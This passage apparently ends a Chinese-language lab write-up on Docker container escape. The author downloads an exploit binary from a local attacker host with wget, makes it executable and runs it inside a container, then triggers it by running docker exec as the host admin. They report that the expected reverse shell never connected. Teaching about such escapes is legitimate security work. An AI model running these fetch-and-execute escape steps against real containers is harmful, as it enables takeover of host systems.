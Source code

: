 在docker容器中下载该exp，并赋予执行权限，执行

```text
wget http://192.168.198.128:8080/main
chmod u+x main
./main
```

![image-20231008151732401](Docker逃逸.assets/image-20231008151732401.png)

然后这里我们假装为宿主机管理员，现在进入到该容器中

```text
docker ps
docker exec -it 3056c91f69ea
```

![image-20231008151740181](Docker逃逸.assets/image-20231008151740181.png)

这时再来看我们的docker容器里执行的exp已然被执行

![img](Docker逃逸.assets/v2-29242efcee38fd28b492d991bcdcccab_720w.png)

但是奇怪的是并没有反弹过来shell，其他命令也无法被执行，修改了n次paylaod也无果，希望有成功的大佬能告知小弟步骤哪里错了。
至此，Docker逃逸章节完结，撒花~~
